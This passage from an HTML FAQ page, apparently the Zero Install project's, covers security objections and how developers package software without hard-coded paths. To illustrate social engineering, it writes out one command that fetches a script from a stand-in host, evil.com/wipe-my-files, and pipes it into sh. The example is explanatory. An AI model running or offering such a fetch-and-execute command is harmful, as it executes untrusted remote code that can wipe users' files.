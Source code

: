 <p>
But on the other hand, you could also send them an email telling them to type:
</p>
<pre>
$ lynx -source http://evil.com/wipe-my-files | sh -
</pre>

<p>
Both can do exactly the same amount of damage, but the second works on any
system. If a user is prepared to run unknown software, they're going to do it
with or without Zero Install.
</p>

<p>
Zero Install helps with large, complicated programs with lots of
dependencies, whereas your typical malicious program is only a few lines long,
and doesn't benefit from it.
</p>
</dd>

<dt>But what about kernel bugs? Zero Install is still vulnerable then!</dt>
<dd>

<p>
Sometimes, bugs are found (and fixed) in the Linux kernel that allow any user
to become root. For example, one was used to compromise some of Debian's
servers. Couldn't a user access some software through Zero Install that
took advantage of this bug to break an un-patched machine?
</p>

<p>
Well, yes. But, as with the question above, they could do it just as easily
without Zero Install (using wget, or just by typing the program in themselves).
If your kernel is insecure, you have a problem with or without Zero Install.
</p>


</dd>
</dl>
</div>

<div class='answers'>
<h2>Developers</h2>

<dl>

<dt>How do I provide software using Zero Install?</dt>
<dd>

<p>
The main requirement is that the program doesn't use hard-coded paths. It should
get resources from its own package relative to its own location (e.g. a shell script
would use <b>`dirname $0`/mydata</b> rather than <b>/usr/share/myprog/mydata</b>). Resources
in other packages should be found using environment variables (<b>$GAME_DATA/level1</b> rather
than <b>/usr/share/gamedata/level1</b>). Many programs do this already.
</p>
